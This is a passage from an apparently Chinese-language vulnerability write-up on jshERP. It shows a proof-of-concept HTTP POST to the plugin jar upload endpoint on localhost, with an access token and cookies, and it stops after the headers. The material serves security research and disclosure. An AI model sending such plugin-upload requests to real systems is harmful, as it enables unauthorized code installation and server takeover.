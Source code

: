 ![image-20240831100222676](assets/image-20240831100222676.png)

接下来直接正常发上传包就行了，把`filename`改成正常的。

```poc
POST /jshERP-boot/plugin/uploadInstallPluginJar HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryR18c5m1VIoSIwPqD
Origin: http://127.0.0.1:3000
Accept-Language: zh-CN,zh;q=0.9
Referer: http://127.0.0.1:3000/system/plugin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
X-Requested-With: XMLHttpRequest
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
X-Access-Token: 4c93f37385db47ad90b8e3ec95272c8b_0
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1725067893; HMACCOUNT=A70ECDA0ACDDDBF2; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1725067922
```